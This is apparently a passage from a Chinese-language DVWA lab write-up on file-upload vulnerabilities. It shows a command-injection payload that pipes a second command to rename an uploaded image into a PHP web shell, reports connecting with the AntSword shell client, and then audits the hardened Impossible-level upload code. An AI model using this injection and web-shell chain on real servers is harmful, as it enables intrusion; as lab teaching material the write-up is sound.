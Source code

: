 ![gtkqX.png](https://s3.jpg.cm/2021/02/18/gtkqX.png)
```bash
ping 127.0.0.1|mv ../../hackable/uploads/2.jpg ../../hackable/uploads/2.php
```
#### 0x03
蚁剑连接成功
![gtm1D.png](https://s3.jpg.cm/2021/02/18/gtm1D.png)

## Impossible
到目前为止，源码将检查所有级别的所有内容。
#### 源码审计
Impossible 级别的代码对上传文件进行了重命名，并加入 Anti-CSRF token 防护 CSRF 攻击，同时使用上诉所有机制对文件的内容，导致攻击者无法上传木马文件。
```php
 <?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );


    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Where are we going to be writing to?
    $target_path   = DVWA_WEB_PAGE_TO_ROOT . 'hackable/uploads/';
    //$target_file   = basename( $uploaded_name, '.' . $uploaded_ext ) . '-';
    $target_file   =  md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
    $temp_file     = ( ( ini_get( 'upload_tmp_dir' ) == '' ) ? ( sys_get_temp_dir() ) : ( ini_get( 'upload_tmp_dir' ) ) );
    $temp_file    .= DIRECTORY_SEPARATOR . md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == 'jpg' || strtolower( $uploaded_ext ) == 'jpeg' || strtolower( $uploaded_ext ) == 'png' ) &&
        ( $uploaded_size < 100000 ) &&
        ( $uploaded_type == 'image/jpeg' || $uploaded_type == 'image/png' ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Strip any metadata, by re-encoding image (Note, using php-Imagick is recommended over php-GD)
        if( $uploaded_type == 'image/jpeg' ) {
            $img = imagecreatefromjpeg( $uploaded_tmp );
            imagejpeg( $img, $temp_file, 100);
        }
        else {
            $img = imagecreatefrompng( $uploaded_tmp );
            imagepng( $img, $temp_file, 9);
        }
        imagedestroy( $img );

        // Can we move the file to the web root from the temp folder?
        if( rename( $temp_file, ( getcwd() . DIRECTORY_SEPARATOR . $target_path . $target_file ) ) ) {
            // Yes!
            echo "<pre><a href='${target_path}${target_file}'>${target_file}</a> succesfully uploaded!</pre>";
        }
```